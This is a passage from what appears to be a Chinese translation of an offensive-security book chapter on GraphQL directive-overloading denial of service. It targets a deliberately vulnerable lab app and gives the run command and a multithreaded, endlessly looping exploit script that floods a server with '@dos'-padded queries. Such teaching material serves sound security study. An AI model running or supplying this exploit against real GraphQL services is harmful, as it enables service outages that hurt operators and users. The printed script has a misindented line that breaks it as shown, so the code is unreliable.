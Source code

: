 列表 5-10：指令重载的示例

对服务器的影响可能会根据其硬件规格有所不同。我们在使用此利用技术时见过不同的服务器行为，例如 GraphQL 服务器崩溃（由于数据库内存错误）或服务性能下降。

### 测试指令重载

本书 GitHub 仓库中的攻击代码 [`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_directive_overloading.py`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_directive_overloading.py) 利用这种漏洞，并可以用来对 DVGA 执行指令重载攻击。

在运行此脚本的任何时刻，你都可以按下 CTRL-C 来终止其操作，发送 *SIGINT* 信号。请注意，当脚本运行时，DVGA 可能会变得缓慢或无响应。

以下命令在命令行中运行攻击：

```
# **python3 exploit_directive_overloading.py http://localhost:5013/graphql 30000**
```

列表 5-11 显示了主要的攻击代码。

```
URL = sys.argv[1]
FORCE_MULTIPLIER = int(sys.argv[2])

def start_attack():
  payload = '@dos' * FORCE_MULTIPLIER
  query = {'query': 'query  { __typename ' + payload + ' }'}
  try:
    r = requests.post(URL, json=query, verify=False)
    print('\t HTTP Response', r.text)
    print('\t HTTP Code: '  , str(r.status_code))
  except:
    pass

threads = []

while True:
  time.sleep(2)
  start = time.time()
  start_attack()
  print(f'Time request took: {time.time() - start}')

  for i in range(300):
 t = threading.Thread(target=start_attack)
    threads.append(t)
    t.start()

  for t in threads:
    t.join()
```

列表 5-11：利用指令重载漏洞的攻击代码

攻击代码从命令行接收两个参数，一个用于识别目标 API，另一个用于指定在攻击过程中将塞入查询中的指令数量。作为 `start_attack` 函数的一部分，我们将 `dos` 指令乘以提供的指令数量。然后，我们构建一个 GraphQL 查询，使用恶意载荷，并创建 300 个线程，每个线程并行运行 `start_attack` 函数。通过使用无限的 `while` 循环，这会使服务器资源在攻击运行期间保持忙碌。
